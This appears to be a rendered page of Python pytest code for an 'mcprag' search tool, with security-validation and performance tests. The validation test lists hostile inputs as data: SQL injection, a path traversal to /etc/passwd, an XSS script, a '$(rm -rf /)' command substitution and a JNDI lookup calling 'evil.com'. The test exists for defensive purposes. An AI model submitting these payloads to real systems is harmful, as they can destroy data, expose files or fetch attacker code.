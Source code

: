 ```python
import pytest
from unittest.mock import patch, MagicMock

class TestSecurityValidation:
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE users; --",
        "../../../etc/passwd",
        "<script>alert('XSS')</script>",
        "$(rm -rf /)",
        "${jndi:ldap://evil.com/a}",
    ])
    async def test_input_validation(self, malicious_input):
        """Test that malicious inputs are properly sanitized."""
        from mcprag.mcp.tools._helpers.input_validation import validate_query_secure
        
        is_valid, error, sanitized = validate_query_secure(malicious_input)
        assert not is_valid or sanitized != malicious_input
    
    async def test_credential_not_logged(self, caplog):
        """Ensure credentials are never logged."""
        with patch.dict(os.environ, {'ACS_ADMIN_KEY': 'secret123'}):
            from mcprag.config import Config
            Config.validate()
            
            for record in caplog.records:
                assert 'secret123' not in record.message
```

### Performance Testing

```python
import asyncio
import time

class TestPerformance:
    async def test_search_performance(self):
        """Test search completes within SLA."""
        start = time.time()
        
        # Simulate 100 concurrent searches
        tasks = []
        for _ in range(100):
            tasks.append(search_code("test query"))
        
        results = await asyncio.gather(*tasks)
        elapsed = time.time() - start
        
        assert elapsed < 10  # Should complete in 10 seconds
        assert all(r['ok'] for r in results)
    
    async def test_memory_usage(self):
        """Test memory doesn't grow unbounded."""
        import psutil
        import gc
        
        process = psutil.Process()
        initial_memory = process.memory_info().rss
        
        # Perform 1000 operations
        for _ in range(1000):
            await search_code("memory test")
            gc.collect()
        
```
